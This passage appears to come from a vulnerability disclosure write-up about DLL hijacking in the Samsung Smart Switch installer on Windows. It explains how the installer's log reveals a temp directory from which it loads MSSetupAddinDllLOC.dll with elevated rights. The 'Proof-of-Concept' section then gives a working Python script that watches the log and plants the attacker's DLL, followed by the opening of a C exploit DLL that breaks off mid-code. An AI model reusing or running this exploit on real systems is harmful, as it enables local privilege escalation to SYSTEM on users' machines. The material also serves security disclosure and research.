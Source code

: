 The second line of the log file contains the path to the directory where the dll files are to be loaded.

Example: `C:\Users\%Username%\AppData\Local\Temp\{Random_GUID}`

The Samsung Smart Switch installer loads `MSSetupAddinDllLOC.dll` from this directory. This dll file is loaded before the license agreement, sometimes after the license agreement, and is loaded multiple times. For this reason, the dll hijacking succeeds by looking for that Random_GUID in the log file and copying the dll to the `C:\Users\%Username%\AppData\Local\Temp\{Random_GUID}` directory. Since this dll is loaded with Administrator privileges, it can be elevated with SYSTEM privileges.

Note: `%Username%` must be replaced with the account name of the user logged into Windows.

## 0x05: Proof-of-Concept (PoC)

```python
# python 3.8.2
import os
import shutil
import getpass

USER_NAME = getpass.getuser()
LOG_FILE = f'C:\\Users\\{USER_NAME}\\AppData\\Local\\Temp\\SmartSwitchPC_Install.Log'
DLL_NAME = 'MSSetupAddinDllLOC.dll'

def checkLine(path : str, index : int) -> str:
    with open(path, 'r', encoding='utf-8') as f:
        ls = f.readlines()
        if len(ls) >= index:
            return ls[index-2]
        else:
            return ''

if __name__ == '__main__':
    if os.path.exists(LOG_FILE):
        os.remove(LOG_FILE)

    while True:
        if os.path.exists(LOG_FILE) and (st := checkLine(LOG_FILE, 3)):
            print('[+] Found Log File')

            temp_path = st[st.rfind(']')+2:st.rfind('}')+1]
            dll_path = temp_path + '\\' + DLL_NAME

            shutil.copy(DLL_NAME, dll_path)
            print('[+] DLL Copy Success')
            break
```

**poc.py**

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
```